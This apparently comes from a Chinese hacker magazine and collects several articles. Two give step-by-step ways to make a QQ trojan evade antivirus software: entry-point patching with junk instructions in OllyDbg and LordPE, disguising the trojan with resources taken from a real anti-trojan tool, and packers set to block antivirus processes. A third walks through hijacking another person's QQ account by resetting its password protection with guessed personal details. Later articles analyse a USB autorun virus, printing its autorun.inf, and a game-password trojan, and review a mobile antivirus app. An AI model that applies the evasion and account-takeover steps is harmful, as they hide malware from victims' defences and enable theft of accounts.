针对 1 方法与 2 方法的弊端，病毒分析人员根据自身经验，把分析病毒时的思维过程用计算机的代码模拟出来。只要用事先写好的代码去调试分析出那些与正常程序不同的代码来，就被列为病毒，比如：病毒程序往往会修改自身代码的入口点以及搜索修改可执行文件，或者调用键盘钩子并将自己的进程注射到系统的进程中去等等。这些都是跟正常的程序不同的，并且这些行为都是有一定的规律可寻的。简单点说，启发式行为检测技术就是通过检测程序的行为（一般是超过 4 个以上或 4 个以上的反常行为）来判定程序是否为病毒。对于新出现的病毒不失为一种好的办法。当然，该种方法也有它的弊端，它会“纵容”病毒犯罪。打个比方：病毒如果在被启发之后，执行的是结束杀毒软件进程的操作的话，那就永远也查不到病毒了。

### 4. 文件校对技术

在初次安装完杀毒软件后，根据软件提示把系统中的文件全部扫描一遍，当在第二次扫描时，未改动的文件将跳过检测。此法旨在提高杀毒的效率而设计（国外的杀毒软件常用此法）。

除了上面主流的技术以外，还有像针对多态变种病毒的虚拟机技术等最新的技术，这里就不一一讲了。但有一点要注意了，不管你用的什么杀毒软件，特征值扫描技术是一定要使用的，所以就从这里入手（关于这些技术的原理，其实我也不是很清楚，但无论怎么样，对于本文来说，掌握了上述四种方法已经足够用了）。

好了，原理篇就论述完了，下面来讲一讲基础篇吧。

# 二、基础篇

这里我们犯不着去理解太多有关 Windows PE 文件格式，以及 8086 汇编原理，只说一些有关代码的知识。知道代码表示的意思，看得懂代码，就行！

以下是遴选出的部分最基本的几个代码进行的补充说明，强制性地记住它（原理不学，可基础代码还是要知道的）。

```assembly
JE 0040XXXX(地址)   相等就会跳转       (直接转移)
JNE                 不相等就跳转       (直接转移)
JNZ                 不相等时就跳转     (直接转移)
JMP                 无条件地跳转       (无条件转移)
MOV EAX, EBX        数据传送指令，将 EBX 的值移送到 EAX 中
CMP EAX, EBX        EAX 寄存器减去 EBX 寄存器的内容
XOR EAX, EAX        使 EAX 的内容清零 (相当于 MOV EAX, 0)
ADD                 加法运算 (+)
SUB                 减法运算 (-)
MUL                 乘法运算 (×)
DIV                 除法运算 (/)
NOP                 无作用（在破解程序时最常用的指令）（使程序不执行任何的数据操作）
PUSH                入栈指令（往寄存器中进行数据入栈）
POP                 出栈指令（与之相反）
CALL                调用子程序
```

说明一下：EAX、EBX 称为通用寄存器，又称为数据寄存器。寄存器可以被装入数据，你也可以在不同的寄存器之间移动这些数据，或者做类似的事情。像四则运算、位运算等这些计算操作，都主要是针对寄存器进行的，不理解你就把它当成是个放数据的箱子。

> 注意：机器码是来给计算机看的，而汇编语言才是本篇要强调的（那为什么还提机器码这个概念呢？其实，前面在讲特征码时说的任意代码就是指的一串串长长的机器码。那么什么又称为机器码呢？机器码就是指用 UltraEdit-32（一个主流的文本编辑软件）打开编辑 exe 文件时你会看到许多 0、1、2、3、4、5、6、7、8、9、A、B、C、D、E、F，这 16 个字符组成的数码就是机器码，不管文件有多大，都只由这 16 个字符来组成）。所以，从理论上讲，杀毒软件可以识别 16 的 128 次方数量的病毒。

还是不懂？可能是我没讲清楚，不过不要紧，在下面的实战篇中，我还会有相关的解释！（基础篇就讲这么多了，汇编是个很早但很经典的语言，在逆向工程中，没有它是不行的，大家不懂还可以去网上找找资料看看。要知道，人是不能一辈子停在菜鸟级别的。）

还说一说关于调试器的原理，简单地说，我们用调试器把代码设成若干个步骤来运行，执行程序时，就要按照特定的步骤来一步一步执行，所以调试器就是执行分析步骤的工具，来限定程序一步一步地执行。打个比方，我们要算出 (14+61)×10=？时，就要分成两个步骤：首先是算 (14+61)=75，再算 (14+61)×10=750，而调试器类似这种把程序代码分成一步一步，让我们来了解程序的每一步都执行了什么命令，从而进行修改（本人关于调试器原理的粗浅体会）。

由于汇编不是本文的重点，那么基础篇就此为止。调试器的原理，大家可以去看雪论坛下载更多的相关资料。

## 三、实战篇

还记得之前说过的一句话吗？“病毒程序入口点的前 20-40 字节的代码最有可能为特征值”，就是利用这个原理。

- 工具：Ollydbg.EXE（WIN32 主流的调试器）
- LordPE.EXE（强大的 PE 文件编辑工具）

要修改的是一个 QQ 木马软件（ClientQQS）的客户端入口点。只有一个 EXE 文件，用最新的病毒库查杀后，发现报警，如图 1。用 Ollydbg 载入目标程序，来到如下代码处：

```assembly
0040580C C>/$ 55        push ebp
\停在这里，这就是程序的入口点
0040580D : 8BEC         mov ebp, esp
0040580F : B9 07000000  mov ecx, 7
00405814 > 6A 00        push 0
00405816 : 6A 00        push 0
00405818 : 49           dec ecx
00405819 : 75 F9        jnz short ClientQQ.00405814
0040581B : B8 C4574000  mov eax, ClientQQ.004057C4
00405820 : E8 FFE4FFFF  call ClientQQ.00403D24
\Delphi 入口特征，没有加壳
00405996 00             db 00
\以下便是空代码处，也是我们进行修改的地方
00405997 00             db 00
00405998 00             db 00
00405999 00             db 00
(省下部分无用代码)
```

其实修改这东西我也不好说改哪一句一定行，因为网上有这类教程，所以这里就只是说说（思路是一样的，你可以换成不一样的代码！）只能给大家一个改的原则，就是不能改变程序运行的结果。改的过程中我们可以用指令顺序调换法，也可以用花指令法，最简单的是跳转法。为了避免累述，这里用的是跳转法和花指令法。

## 1. 跳转法，如图 2

找到了空代码处，修改开始……

```assembly
004059AA  00    db 00 (双击此处，改为 NOP)
\(你也可以在别处修改，但要是空代码)
004059AB  00    db 00 (双击此处，改为 NOP)
004059AC  00    db 00 (双击此处，改为 NOP)
004059AD  00    db 00 (双击此处，改为 NOP)
004059AE  00    db 00 (双击此处，改为 JMP 0040580C)
004059AF  00    db 00
```

## 2. 花指令法

```assembly
004059AA  00    db 00
004059AB  00    db 00 (双击此处，改为 PUSH EAX)
\入栈
004059AC  00    db 00 (双击此处，改为 POP EAX)
\出栈
004059AD  00    db 00 (双击此处，改为 XOR EAX, EAX)
\清空
004059AE  00    db 00 (双击此处，改为 NOP) 可以将上述指令倒着插入（以上四句是经典的“垃圾指令”，如果空代码段很大，可以循环使用）
004059AF  00    db 00 (双击此处，改为 JMP 0040580C)
\跳到原来的入口点
```

关于代码的意思，旁边是有解释的，这里就不再多说，实在不懂，在前面的基础篇中都已涉及。

选中刚才修改的代码，按右键 -> 复制到可执行文件 -> 选择部分，如图 3。

弹出一个对话框，再按右键→保存文件，如图 4，50% 的工作已完成了。

为什么还只是 50%？对，还有入口点的位置没有换过来，LordPE.EXE 该上场了……

点击→PE 编辑→在入口点处把 0000580C 改为 00005996（也就是刚才所加代码处）→保存，OK 了！如图 5。

再用最新的病毒库查一查，看！没报警了，如图 6。

打开文件监控，居然也没报警，看来该木马的特征值只在代码段而不是在字符串吧！（这种情况很多）这又为我们免杀提供了便利，改一次就行了，真是一劳永逸啊！

还有其他的一些指令改法，为了使自己改的代码不被发现，请大伙自己来设计，其实就是代码的简单拼凑，就算是留着作为大家的作业吧！（通过对该病毒的分析，发现当你运行 ClientQQS 的时候，会在你的系统中生成一个名为 QQSB.EXE 的服务端，也是病毒，改改它试试看！）

在这里我提一个例外——诺顿，它病毒引擎的特征值不是在代码段而是在头文件中，是用头文件中的字符串作为病毒的特征值，所以对付它嘛，我就直接对头文件的代码进行改动，也是 30-50 字节。如果代码没有多少空区域的话，就直接换字符串的大小写，实在不行的话我们用到加壳就可以了。（方法本文就不再涉及，原理差不多嘛！）

好了，本文就到这里了，以上是制作 EXE 文件免杀的基本思路。至于 DLL 文件，在载入时很有规则，所以难度要大一点，但总的思路是和 EXE 差不多。有机会的话，我还会讲一讲的。至于病毒的测试就不做了（不然，会被戴上个“诈骗稿费”的头衔了！）

希望对大家技术的提高有所帮助，有任何的问题可以在 NOHACK 的软件调试论坛与我联系。

（本文涉及的方法以及代码有一定的危险性，仅供技术交流，请读者合法使用，任何违法行为均与作者无关。）  
（文章中用到的工具 lordpe14、Ollydbg 1.10b 汉化修改版、PEiD 以及作者做的动画演示在光盘中有收录。）

> **编辑点评：**免杀处理是喜欢玩木马朋友的基本能力，文章只是对最基本的方法做了一些阐述，覆盖面并不是很大，所用的方法也是比较常见的方法，好在作者讲述得还比较清楚，还附带了演示动画，只要大家明白免杀处理的原理，再深入进去就不难了！

现如今的免杀方法有很多，比如加壳、加花、改文件头等，但是很多方法对于菜鸟来说都很难马上上手。今天我就为大家介绍一种全新的免杀方法——移花接木，保证所有的用户在很短的时间里就可以制造出属于自己的免杀程序。

# 一、免杀说明

我们都知道，如果一个正规的可执行文件，在点击其右键打开“属性”后，从弹出的“属性”窗口可以获得很多软件的相关信息。尤其是其中的“版本”标签，不但可以查看到文件版本、描述等信息，还可以查看到这个程序的产品名称、公司名称、网站地址等一系列的信息内容（如图 1）。但是纵观如今的木马程序，没有任何一款木马程序的“属性”窗口含有“版本”标签，所以我们今天就利用某些程序修改软件来为木马程序添加上“版本”标签。当然我们也可以添加图标、位图等其他内容。这样做不但可以对文件进行进一步的伪装，而且还可以起到免杀的效果。由于这是一种全新的免杀方法，暂时还没有统一的名称，所以我们暂且将其称之为“移花接木”。

# 二、实际操作

首先配置一个木马的服务端程序，接着再寻找一个用于“移花接木”的可执行文件，这里我就选用图 1 这个江民的“网银木马专杀”程序。

首先运行程序资源修改工具 Restorator，点击工具栏上的“打开文件”按钮，从弹出的窗口中分别选择木马服务端程序和专杀工具。接着通过在 Restorator 的资源树下找到服务端程序的资源内容，在其中找到“图标”这一项，点击右键选择其中的“删除”命令（如图2）。这样做是将服务端程序原有的图标资源删除，为后面替换专杀工具的图标做准备。

下面在资源树下找到专杀工具的资源内容，接着在其中找到“图标”和“版本”这两项。然后分别通过鼠标选择并拖拽某一项内容到服务端程序的资源内容中释放，这样我们就成功地将专杀工具中的“图标”和“版本”这两项“接木”到服务端程序上了（如图3）。最后选择服务端程序这一项，点击“文件”菜单下的“另存为”命令将修改的服务端程序重新进行保存。查看保存的服务端程序，不但文件图标被替换成了专杀工具的图标，同时在属性中也新增加了一个“版本”标签。


# 三、继续免杀

经过上面移花接木的一番处理后，发现服务端程序已经免杀了，但是同时我也发现了另一个问题。就是同样是进行移花接木的处理，选择不同的“移花”程序，有的时候也会出现被杀的情况，所以我们还需要进一步的免杀操作。即使是通过移花接木处理已经免杀了，也同样可以进行再处理，防止木马程序在短时间内又被杀毒软件所杀。


首先运行加密程序 SVK，在“需要保护的文件”选项中设置刚刚保存的服务端程序，直接点击“加密”按钮。很快 SVK 就会对服务端程序进行加密设置，并提示用户“文件加密成功”（如图4）；接着运行“免疫007”，首先点击主界面的“配置信息”标签，将其中的所有选项都选中。接着在“自定义节的名称”选项中进行设置，注意这里只能使用英文进行设置。然后在“反攻击进程”选项中可以设置一些杀毒软件的进程名称，这样可以有效地避免这些进程对服务端程序的检测（如图5）。设置完成后，点击“文件保护”标签中的“选择文件”按钮来选择服务端程序，接着点击“保护”按钮即可成功进行免疫；最后运行“NsAnti”，它的主要作用是对服务端程序进行内存免杀处理。点击“选择文件”按钮来选择服务端程序，接着点击“压缩”按钮就可以对服务端程序进行内存免疫操作。

# 四、小结

我们在经过这一系列的免杀操作后，服务端程序就能够成功地躲过现如今主流杀毒软件的查杀了，比如：卡巴斯基、诺顿、瑞星等。今天主要为大家介绍了一种全新的伪装及免杀方法，不但操作简单易于掌握，而且对于第一次使用的用户也能轻松上手。虽然它并不是每一次操作都能免杀成功，但是我们知道并不是每一种加密方法都是绝对免杀的，所以大家也不用怀疑它的可行性。

> [文章中的 Restorator、SVK、免疫007 在光盘中有提供]

**编辑点评：**

相信广大菜鸟对修改特征码等技术很头疼，这篇文章换了个思路来做免杀，并且只是用几个工具，确实很适合菜鸟快速得到自己的免杀木马。


> **社工语录：** 本人以为社会工程学不会引起读者的兴趣，但是通过回执卡发现该栏目文章还是受到不少读者的关注，特别是上期的《Google HACK 与社会工程学反击战3》得到了大家的喜爱。社工的精髓在于通过发散的思维拓展一切可能的线索，就像案破一样。本期案例是一个有密保 QQ 的获取过程，这里我们绝对 BS 盗 QQ 的恶劣行为，本文的目的仅是通过思维告诉你如何让我们的 QQ 更加安全。

- 从本文你可以学到：
- 利用社会工程学与 MYQQ 中的个人信息轻松获得 QQ 号

有时，小菜们盗号时取得了用户名以及密码，就迫不及待地要登录修改密码，但过了几天，又被“失主”利用密码保护查回去了，虽说我们有可能申诉回去，但毕竟人家腾讯公司也不是吃干饭的，成功率少得可怜。那么今天，我们就要直接去利用社会工程学来修改 QQ 密码保护。

# 无毒有偶

前两天，无意在 QQ 网站上闲逛，想到 MYQQ 查询一下看看自己开了哪些服务，可是发现，在 http://my.qq.com/info.shtml 的底部有一个“我的身份信息”（图1），那我们可不可以利用这些信息来修改 QQ 密码保护呢？


说干就干，我从信箱中找出了一个 QQ 号，471065442，然后登录 http://my.qq.com/info.shtml，将窗口拉到屏幕最下方，如图2所示，哈哈！这个 QQ 号的资料到手了！

根据社会工程学，大多数人都会将这里的个人资料与 QQ 的密码保护设置成一样的。所以，知道了这些信息，我们就可以到 http://service.qq.com/psw/mo.shtml?psw_mdf.htm 去修改密码保护了。


我们来到修改密码保护的地方，输入号码或电子邮件账号以及验证码，然后来到最重要的地方，如图3，需要输入证件号码、密码提示问题及答案等。

我们由图2可得到，他的证件号码选择的是其他证件，而证件号码腾讯给我们隐藏了几位，是 1234567899876*****，看看它的排列规律我们猜出来后面的 ***** 可能是 54321。于是，我们将 123456789987654321 填入原证件号码处。接下来的问题由图3可以得到，密码提示问题是“我的邮政编码是多少”，我们由图2就知道他的邮编为 256500，我们填进去（如果为别的，那就要看你的社会工程学学得怎么样了），最下面就剩下电子信箱了，如何知道他用的是什么邮箱呢？这个是最好办的。我们登录他的 QQ 号，如图4所示，他的 E-mail 就提供给我们了，是 luo9-1@163.com，我们依次填入。这样原资料就填好了。下面的新资料就看大家的发挥了。呵呵！


我们点击下一步，如图5所示，修改成功了。我们就可以将这个号拿到手了。

另外，我们还可以在 QQ 积分的订货栏目里查询到 QQ 的更多具体信息（但前提是这个 QQ 必须在 QQ 积分商城买过东西）。相信那些信息对大家还是有用的。

我写这篇文章的目的绝对不是提倡盗 QQ 的，而提供这篇文章的目的是为了让大家在为 QQ 填写密码保护的时候不要填写一些易于被别人猜中的东西。好了，文章就此为止吧。大家有什么不明白的就到 NoHack 论坛来讨论吧。

> **编辑点评：** 从严格意义上说，文章运用的不仅仅是社会工程学，更多的是信息的收集，这是作为一个安全爱好者最基本的技能，得到更多的信息对我们总是有帮助的。即使你掌握的信息不能修改密码保护资料，也可以试试登录他密码保护的邮箱，改掉邮箱密码。总之要有开阔的思维。

- 从本文你可以学到：
- 了解 Autorun.inf 文件原理
- 掌握 Tiny Firewall 2005 Pro 的简单使用
- 分析清除 Autorun.inf 类病毒的步骤

# 邂逅 U 盘病毒

最近和朋友合伙写程序，经常需要拿着 U 盘往他家跑，交流自己的工作情况。可是有一天将 U 盘拿回家后，双击 U 盘盘符，我的 Tiny Firewall 2005 Pro（简称 TFP）就报警了，提示有个 autorun.exe 的程序要运行，马上点 Don't Run 阻止运行。看来是利用 autorun.inf 进行自动播放的，用右键菜单中的“打开”来打开盘符，不出所料，看到 U 盘里多了个隐藏文件 autorun.inf 和文件夹 RECYCLER，打开 autorun.inf 文件，其内容如下：（“|”后面是注释）

```ini
[autorun]
open=\RECYCLER\RECYCLER\autorun.exe ;自动播放 autorun.exe
shell\1=Open ;给右键菜单添加一个 Open
shell\1\Command=\RECYCLER\RECYCLER\autorun.exe ;点 Open 就运行 autorun.exe
shell\2=Browser ;给右键菜单添加一个 Browser
shell\2\Command=\RECYCLER\RECYCLER\autorun.exe ;点 Browser 就运行 autorun.exe
shellexecute=\RECYCLER\RECYCLER\autorun.exe ;双击盘符时候自动运行 autorun.exe
```


被修改后的右键菜单如图1所示。真是绞尽脑汁想让我们运行盘符下的 RECYCLER\RECYCLER\autorun.exe。找到了病毒文件，可是打开“RECYCLER\RECYCLER”一看居然跑回收站里来了。想藏病毒文件？一看就知道了，desktop.ini 文件将目录跳转到回收站。这可难不倒我，用 WINRAR 压缩 RECYCLER 文件夹，然后打开压缩包就能看到里面的 autorun.exe 和 desktop.ini，单独把它们解压，点开 desktop.ini 看内容：


```ini
[.ShellClassInfo]
CLSID={645FF040-5081-101B-9F08-00AA002F954E}
```

跟我猜想得一样，把这个 desktop.ini 放到文件夹里，文件夹就会自动跳转到回收站了，不过依然可以储存文件。


## 分析病毒行为

本来想一删了之，后来一想这会不会是朋友的杰作？这激起了我的好奇心。不怕，咱们有 TFP 保护，决定跟踪一下病毒的行为。双击病毒运行，TFP 再次报警，和第一次启动运行的提示完全一样，如图2所示。点击 Run with Default Security（以缺省的安全模式运行），这样程序的每一步 TFP 都会让我们决定是否允许其执行，病毒的行为也就一清二楚了，同时也避免了一些危险的操作。病毒的第一步是将自身复制到 C:\Windows\system32\wincfgs.exe，如图3所示。接着病毒调用这个复制的新文件，如图4所示。


再将系统中的记事本程序 notepad.exe（MD5 值一样所以确认没改过）拷贝到 C:\Windows\KB20060111.exe，然后运行它，晕，没事干的病毒。最后把 wincfgs.exe 写入注册表自启动项，方便自己随系统自启动，如图5所示。

这就是它做的全部事情了，这个 wincfgs.exe 一见到有移动设备插进来就会复制自己到移动设备并且建立 autorun.inf 来传播，同时主控病毒发作，是一个比较简单的病毒程序。


分析就到这里，剩下的就是清除工作了。只要先把病毒进程终止，再删除 wincfgs.exe 及 KB20060111.exe 文件，最后清除注册表中的启动项就可以了。

# 尾声

再次到朋友家，问是不是他搞的鬼，他一口咬定不是，一看电脑，才发现他也是受害者，应该是他的电脑先中毒后传播到我 U 盘上的。中了毒居然不知道，立刻着手帮他清除，以免再次连累到我的爱机。（作者提到的 Tiny Firewall 2005 Pro 已经收录在光盘中）

> **编辑点评**：虽然此病毒相对简单，但是却相当狡猾，利用 Autorun.inf 的所有方法，添加一些容易引起混淆的菜单项，使自身可以任意快速地传播，看来以后打开移动存储设备的时候要小心了。

## 上接第291页

那么我们是不是可以用这种方法来隐藏文件呢？当然，这是完全可行的。至于为什么“{645FF040-5081-101B-9F08-00AA002F954E}”这个后缀能达到跳转的效果，这应该是资源管理器的问题。而“{645FF040-5081-101B-9F08-00AA002F954E}”这个后缀值其实是可以从注册表中找到的，具体如图3。如下，是我记下的一些跳转的后缀值。

- 网络邻居：{208D2C60-3AEA-1069-A2D7-08002B30309D}
- 历史：{FF393560-C2A7-11CF-BFF4-44455340000}
- 我的电脑：{20D04FE0-3AEA-1089-A2D8-08002B30309D}
- 我的文档：{450D8FBA-AD25-11D0-98A8-0800361B1103}
- 控制面板：{21EC2020-3AEA-1069-A2DD-08002B30309D}
- 回收站：{645FF040-5081-101B-9F08-00AA002F954E}


通过这种方法在不同的场合隐藏你的隐私文件也是一种不错的选择。好了，就写到这里。如果还有什么疑问或者想法可以到 Nohack 的 BBS（http://www.nohack.cn/bbs/）或我的 Blog（http://www.yuiv.net）上留言。

> **编辑点评**：作者说的方法其实在两年前就有人用过了的，虽然历史是久了点，但是考虑到有些朋友可能还不了解，加之还存在一定的利用价值，就发出来希望有兴趣的朋友继续深入研究研究。

# 落雪木马

## 反病毒案例分析

- 从本文你可以学到：
- 落雪木马的运行过程
- 落雪木马的查杀技巧


最近网上正在流窜这一类木马：游戏大盗，KV 报病毒名：Trojan/PSW.GamePass，这类木马还有一个好听的别名：落雪木马，在浪漫的名称背后隐藏的是一双冰冷狡诈的眼睛！如果你正在打网络游戏，并且中了这种木马的话，那么你的游戏账号和密码，将会受到很大的威胁！

游戏大盗 Trojan/PSW.GamePass，也叫落雪木马，是由 VB 语言编写，一般使用的是 NsPack 3.1 的壳，也就是通常所说的北斗壳（North Star），该木马文件图标一般是红色的，很像网络游戏的登录器。如图1。

落雪木马可以盗取包括魔兽世界、传奇世界、征途、梦幻西游、边锋游戏在内的多款网络游戏的账号和密码，对网络游戏玩家的游戏装备构成了极大的威胁。

# 病毒行为分析

病毒运行后，将创建下列文件（以 Windows XP 系统为例）：

```text
c:\program files\common files\explore.pif，47274 字节
c:\program files\internet explorer\iexplore.com，47274 字节
c:\windows\1.com，47274 字节
c:\windows\debug\debugprogram.exe，47274 字节
c:\windows\exeroute.exe，47274 字节
c:\windows\explorer.com，47274 字节
c:\windows\finder.com，47274 字节
c:\windows\winlogon.exe，47274 字节
c:\windows\System32\command.pif，47274 字节
c:\windows\System32\dxdiag.com，47274 字节
c:\windows\System32\finder.com，47274 字节
c:\windows\System32\msconfig.com，47274 字节
c:\windows\System32\regedit.com，47274 字节
c:\windows\System32\rundll32.com，47274 字节
```

在注册表中添加下列启动项：

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"Torjan Program" = %WinDir%\winlogon.exe

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Winlogon]
"Shell" = explorer.exe 1
```

这样，在 Windows 启动时，病毒就可以自动执行。

病毒通过修改下列注册表键值，修改文件关联：

```reg
[HKEY_CLASSES_ROOT\dunfile\shell\open\command]
"" = %systemroot%\system32\rundll32.com netshell.dll,invokedunfile %1

[HKEY_CLASSES_ROOT\file\shell\open\command]
"" = rundll32.com url.dll,fileprotocolhandler %1

[HKEY_CLASSES_ROOT\htmlfile\shell\open\command]
"" = "c:\program files\internet explorer\iexplore.com" -nohome
```


这样，用户打开任何 html 文件，都会再次运行病毒程序。

正常的 winlogon.exe 系统进程路径是 C:\WINDOWS\system32\winlogon.exe，落雪木马也会创建一个名为 winlogon.exe 的进程，指向的路径为：c:\windows\winlogon.exe，以此来迷惑用户。用 ProcessExplorer 工具可以清晰地看到病毒进程，如图2。

该木马的病毒文件分布也很有特点，如图3和图4。

大家可以看到，该木马会生成很多文件，并且文件大小都是一样的，这可能就是落雪木马名称的由来吧！其实这些文件都是同一个文件，只是名称不同而已。生成的病毒文件模拟成正常的工具名称，只是扩展名改成了 .com，这是利用了 Windows 操作系统执行 .com 文件的优先级比 EXE 文件高的特性，当用户调用 Msconfig.exe 的时候，一般习惯上输入 Msconfig，而这执行的并不是微软的 Msconfig.exe 程序，而是病毒文件 Msconfig.com，可见病毒作者的“良苦用心”。落雪木马会创建以下键值实现开机自启动：

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"Torjan Program"="C:\WINNT\WINLOGON.EXE"
```

# 图 4 病毒伪装成系统工具

注册表位置如图 5。

HijackThis 工具扫描的日志特征如图 6。

# 图 5 注册表中位置

落雪木马还有一个很特别的地方，就是这个木马不仅仅感染 C 盘，还会在 D 盘中也留下木马文件，如图 7。

autorun.inf 文件是一个自动运行的脚本程序，里面内容如下：

```ini
[autorun]
OPEN=D:\pagefile.pif
```

很明显，即便是用户中毒之后将 C 盘的病毒杀干净了，一旦双击 D 盘还会重新感染落雪木马，可见这个木马的作者利用了人们很多操作习惯上的漏洞。

# KV 2006 清除方案

如果出现的落雪木马 KV 能够识别出来，那么全盘查杀即可。

# 图 6 扫描日志中可以看到启动项

由于落雪木马变种很多，当你遇到了新的木马变种的时候，KV 有可能识别不出来，而且落雪木马的病毒文件又很多，手动一个一个地删除很麻烦。这时候 KV 的“自定义样本库”功能就可以帮上大忙了，只要把木马文件其中的一个添加到自定义样本库中，再全盘扫描即可杀毒。具体操作如下：

# 图 14 扫描样本库

首先在“文件夹选项”中显示隐藏文件和受保护的系统文件，操作如图 8。

# 图 13 关闭

# 图 12 命名样本

编辑样本库，如图 9。

选择“新建样本”，如图 10。

# 图 7 在 D 盘也有木马文件

我们接着添加病毒样本，如图 11。

# 图 11 添加样本文件

最后命名样本，如图 12。

点击关闭，完成样本库添加操作，如图 13。

# 图 8 显示所有文件

# 图 9 编辑样本库

然后我们就可以扫描样本库，如图 14。

可以看到查毒状态如图 15。

# 图 10 新建样本

对用户自定义：打开 KV2006 杀毒软件，依次点击：工具 -> 未知病毒检测 -> 编辑样本库。

选择杀毒，可以看到全部处理掉了，如图 16。

大家可以体验一下 DIY 杀毒的乐趣，该未知病毒的添加过程适用于大多数未知病毒。如果用户觉得手动添加病毒文件操作复杂，还有更快捷的办法：下载江民科技的“落雪”(GamePass) 木马专杀工具（http://www.jiangmin.com/download/TrojanKiller.exe）杀毒，如图 17。

图 16 杀毒

图 17 江民科技的落雪专杀工具

可见“落雪”(GamePass) 木马专杀工具可以快速地彻底查杀落雪木马。在杀毒之前，建议大家将可疑程序上报到 virus@jiangmin.com 江民反病毒信箱，这样江民科技的反病毒工程师就可以将你遇到的病毒样本添加到最新的病毒库中，方便更多的用户查杀。

> **编辑点评：**“落雪”最近是很火，坏事做了不少，由于它功能强大，变种多样，给查杀带来一定的困难，好在它的变种都是较简单，我们可以按照作者介绍的方法搞定它；但是复杂变种出现的时候，我们还是不好处理，那只能寄希望于杀毒软件了。

# 网秦手机杀毒使用介绍

- 从本文你可以学到：
- 手机病毒的介绍
- 网秦手机杀毒软件的应用

## 前言

2000 年出现了第一只利用 WAP 网络进行传播的手机病毒，当时这类病毒只是一种造成恶意信息的传送，并不是利用移动电话与移动电话之间传播感染开来的。由于当时我们所使用的手机类型还很难执行相对复杂的病毒代码，所以真正利用手机系统及其功能的病毒，在智能手机日渐普及的今日才得以出现。

2004 年中，一只名为“Cabir”的手机病毒，偷偷地在手机网络当中慢慢传染开来，它的原理就是通过手机的蓝牙连接模式进行传播感染蠕虫病毒。因为现有的手机病毒大部分都是蠕虫病毒，如果你不安装的话，就不会使得手机中毒了。而中毒之后病毒会安装在 /system/apps/caribe/ 目录下，感染之后病毒会自动利用蓝牙连接并且尝试传播给蓝牙传播范围内的手机用户，Symbian 的手机蓝牙传送就好像短信一样保存在手机当中的，当用户打开短信之后，就会弹出相关的提示框咨询你是否安装该程序。这个就是第一只手机病毒“Cabir”，它不具有破坏性，它只是一只概念验证病毒而已，而时至今日 Cabir 病毒已经拥有 24 种变种。

从上面的介绍，我们就已经知道现在不单是电脑的网络安全有着非常严峻的情况，而与我们密切相关的手机，也开始慢慢地受到病毒等的滋扰，我们不但要对于电脑有着一定的网络安全意识，更多的我们要对于我们身边所使用的设备有着更多的网络安全意识。因为智能手机慢慢地成为了手机中最受欢迎的一份子，所以很多国内的安全公司也开始针对手机的安全做了很多的功夫，而手机的防毒也成为了整个手机安全体系里面最重要的组成部分。

## 针对 Symbian OS 系统的手机杀毒进行介绍

当我们还没有接触智能手机的时候，我们的电脑通常会使用哪几种杀毒软件呢？比如：国内的金山毒霸、瑞星杀毒、江民杀毒；国外的 McAfee、KAV（卡巴斯基）、F-Secure 等等。而对于智能手机来说，现有接触智能手机杀毒的厂商有：国内的金山毒霸、东方飞塔、网秦天下、北京日月光华；国外的 McAfee、KAV（卡巴斯基）、F-Secure。而这次我们以国内的网秦天下所开发的网秦手机杀毒作为介绍，看看我们国内的手机杀毒软件。当我们把软件安装在手机当中之后，打开杀毒程序，就会出现“网秦手机杀毒”的标志。当标志消失之后程序就会出现主界面信息，如图 1 和图 2。在这里大家要清楚，该程序是免费下载，但是如果你需要把杀毒更新为最新病毒特征库的话，就需要充值你的账号，然后根据他们官方的计费方式进行扣费。如果你觉得没有必要去及时更新病毒特征库的话，官方会按照你的用户等级给予更新，大多数我们所更新到的病毒库都是该日的前三个月的病毒库。

而网秦手机杀毒软件和其他的软件一样具有几个必备的功能：

## 1、实时监控功能

这是所有杀毒软件都必备的功能了，而它的实时监控可以按照你的需要自定义是否需要开启实时监控状态，如图 3、图 4，而 McAfee 就没有这样的设置，导致你必须开启软件的实时状态。而且你的实时监控状态的级别，也可以按照你自身的需要去选择设置等级。通常我们都是把实时监控级别设置为“高”，这样手机受到病毒的危害就会减少很多。

图 1、图 2 网秦软件的主界面

图 3、图 4 可以设定实时监控

## 2、病毒扫描功能

网秦手机杀毒的扫描功能部分，比较欠缺一些人性化的设置，当我们需要扫描某个文件夹的时候，它并没有这样的设置，而是变成如果你需要扫描该文件夹的话，就必须扫描该文件夹的所在分区，这样导致我们扫描的时间大大增加了。而如果我们需要扫描单独分区盘的话，我们可以在主界面下按方向键进行选择，如图 5、图 6。虽然程序在扫描功能的自定义扫描部分比较欠缺，但是对于程序的扫描速度，本人是五体投地的。本人手机是使用 1G RSMMC 内存卡，而软件扫描的时间不到 1 分钟就完成了所有的文件扫描，速度的确是惊人，如图 7、图 8。

## 3、在线更新功能

在开始的时候，我就已经向大家介绍过，因为软件是更新部分收费的，而收费用户可以及时地更新手机病毒特征库，但是免费用户只能够更新到最新病毒特征库的三个月版本，如图 9、图 10、图 11，所以这是比较凄惨的。经过和官方的工程师聊过之后得知，如果大家在使用的时候有任何建设性的意见，都可以换取 VIP 用户资格，不管是更新程序还是杀毒特征库都可以及时更新。^_^

介绍完程序的必备功能之后，介绍一下软件独有的修复受损文件功能。这个功能就是当我们的程序受到病毒的破坏之后，针对受到破坏的程序进行修复。而且这样就可以保证我们的文件不会因此而丢失，如图 12。

不单是修复受损文件的功能出色，而且对于我们所做的一切，它都会以日志的形式进行记录，这样可以让我们很容易地找到之前所做过的，以及所感染的病毒信息是什么，如图 13、图 14。

当我们完成杀毒步骤之后，程序会自动提醒你有可能手机的内存当中会存在未及时清除的病毒，所以需要你重新全盘扫描。当扫描完毕之后，程序还会提醒你重启手机，以便检测是否有残留的病毒还没有删除，如图 15。

以上就是网秦手机杀毒工具的测试以及介绍，对于该工具总体上来说还是挺不错的，因为是测试阶段，对于一些比较人性化的设置还是欠缺。在测试的过程当中非常感谢“网秦天下”的工程师热情帮助，提供有关病毒的测试样本以及最新杀毒工具。

## 编辑点评：

文中简单介绍了手机杀毒软件网秦的应用，在杂志上还是第一次出现这样的东东，比较新鲜！小编在这还要多说几句，现在智能手机系统如文章中说到的 Symbian 和另外一款比较流行的 Windows Mobile（包括 PPC 和 Smart Phone）在逐渐占据智能手机的市场。大家知道，Windows CE 是微软开发的用于手机上的操作系统，会不会延续 Windows 的风格，漏洞百出呢？

